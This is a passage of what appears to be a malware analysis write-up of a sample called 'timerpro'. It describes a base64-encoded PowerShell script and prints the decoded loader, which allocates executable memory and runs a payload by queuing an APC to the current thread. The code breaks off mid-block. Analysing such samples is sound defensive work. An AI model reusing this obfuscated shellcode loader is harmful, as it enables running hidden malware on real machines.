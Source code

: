![Timerpro?!](regexp4.png)

The value contains [a powershell script](artifacts/timerpro.d.ps1) with a very large chunk of base64 encoded data, which decodes itself and then runs the following [embedded script](artifacts/timerpro.d.loader.ps1):

```ps
$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";

$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
```